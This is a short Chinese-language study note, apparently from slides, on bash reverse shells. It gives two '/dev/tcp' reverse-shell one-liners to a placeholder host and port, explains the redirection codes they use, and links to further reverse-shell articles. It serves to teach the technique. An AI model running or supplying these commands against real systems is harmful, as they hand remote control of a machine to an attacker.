

bash -i >& /dev/tcp/ip/7777 0>&1

bash -i > /dev/tcp/ip/7777

标准输入输出重定向
标准输入：代码0，<
标准输出：代码1，>，1>
标准错误输出：代码2，2>
&>: 混合输出，>& = &> = 2>&1

反弹shell命令详解：https://www.cnblogs.com/pandana/p/16289320.html

其他反弹shell姿势：https://xz.aliyun.com/news/8987